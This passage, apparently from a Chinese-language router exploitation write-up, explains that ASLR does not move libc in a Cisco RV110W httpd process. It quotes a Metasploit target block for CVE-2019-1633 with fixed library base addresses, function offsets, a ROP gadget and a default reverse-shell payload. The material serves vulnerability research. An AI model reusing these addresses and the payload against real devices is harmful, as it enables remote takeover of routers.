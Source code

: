 ```bash
2abb5000-2abb9000 rw-p 00042000 1f:02 304        /usr/lib/libshared.so
2abb9000-2abbd000 rw-p 2abb9000 00:00 0 
2abbd000-2abcc000 r-xp 00000000 1f:02 194        /usr/lib/libcbt.so
2abcc000-2ac0b000 ---p 2abcc000 00:00 0 
2ac0b000-2ac0c000 rw-p 0000e000 1f:02 194        /usr/lib/libcbt.so
2ac0c000-2ac0e000 r-xp 00000000 1f:02 984        /lib/libdl.so.0
2ac0e000-2ac4d000 ---p 2ac0e000 00:00 0 
2ac4d000-2ac4e000 r--p 00001000 1f:02 984        /lib/libdl.so.0
2ac4e000-2ac4f000 rw-p 00002000 1f:02 984        /lib/libdl.so.0
2ac4f000-2ae3c000 r-xp 00000000 1f:02 311        /usr/lib/libcrypto.so
2ae3c000-2ae7c000 ---p 2ae3c000 00:00 0 
2ae7c000-2ae94000 rw-p 001ed000 1f:02 311        /usr/lib/libcrypto.so
2ae94000-2ae98000 rw-p 2ae94000 00:00 0 
2ae98000-2af02000 r-xp 00000000 1f:02 301        /usr/lib/libssl.so
2af02000-2af42000 ---p 2af02000 00:00 0 
2af42000-2af48000 rw-p 0006a000 1f:02 301        /usr/lib/libssl.so
2af48000-2af58000 r-xp 00000000 1f:02 988        /lib/libgcc_s.so.1
2af58000-2af97000 ---p 2af58000 00:00 0 
2af97000-2af98000 rw-p 0000f000 1f:02 988        /lib/libgcc_s.so.1
2af98000-2afef000 r-xp 00000000 1f:02 986        /lib/libc.so.0
2afef000-2b02f000 ---p 2afef000 00:00 0 
2b02f000-2b030000 r--p 00057000 1f:02 986        /lib/libc.so.0
2b030000-2b031000 rw-p 00058000 1f:02 986        /lib/libc.so.0
2b031000-2b036000 rw-p 2b031000 00:00 0 
7fdd9000-7fdee000 rwxp 7fdd9000 00:00 0          [stack]
```

那可不可以使用动态库中的gadget呢？我们来看一下内核的地址空间随机化的保护：

```
$ cat /proc/sys/kernel/randomize_va_space
1
```

可以在linux源码中的文档找到对[randomize_va_space](https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/sysctl/kernel.rst#randomize-va-space)的解释：

| value |  info |
| ---- | ------------------------------------------------------------ |
| 0    | Turn the process address space randomization off. This is the default for architectures that do not support this feature anyways, and kernels that are booted with the "norandmaps" parameter. |
| 1    | Make the addresses of mmap base, stack and VDSO page randomized. This, among other things, implies that shared libraries will be loaded to random addresses. Also for PIE-linked binaries, the location of code start is randomized. This is the default if the `CONFIG_COMPAT_BRK` option is enabled. |
| 2    | Additionally enable heap randomization. This is the default if `CONFIG_COMPAT_BRK` is disabled.There are a few legacy applications out there (such as some ancient versions of libc.so.5 from 1996) that assume that brk area starts just after the end of the code+bss. These applications break when start of the brk area is randomized. There are however no known non-legacy applications that would be broken this way, so for most systems it is safe to choose full randomization.Systems with ancient and/or broken binaries should be configured with `CONFIG_COMPAT_BRK` enabled, which excludes the heap from process address space randomization. |

所以当`randomize_va_space`为1时，动态库的地址是随机的。**但是！！！思科的这个设备，httpd进程的libc基址就是`2af98000`，无论你是重启进程，还是升级版本，这个基址都不变，可以看到之前CVE-2019-1633的exp中，libc基址也是`2af98000`**

```ruby
'Cisco RV110W 1.2.1.7',
            {
              'offset'              => 69,
              'libc_base_addr'      => 0x2af98000,
              'libcrypto_base_addr' => 0x2ac4f000,
              'system_offset'       => 0x0004c7e0,
              'got_offset'          => 0x00098db0,
              # gadget 1 is in /usr/lib/libcrypto.so
              'gadget1'             => 0x0003e7dc, # addiu $s0, $sp, 0x20; move $t9, $s4; jalr $t9; move $a0, $s0;
              'Arch'                => ARCH_MIPSLE,
              'DefaultOptions'  => {
                'PAYLOAD'         => 'linux/mipsle/meterpreter_reverse_tcp',
              }
            }
          ],
```
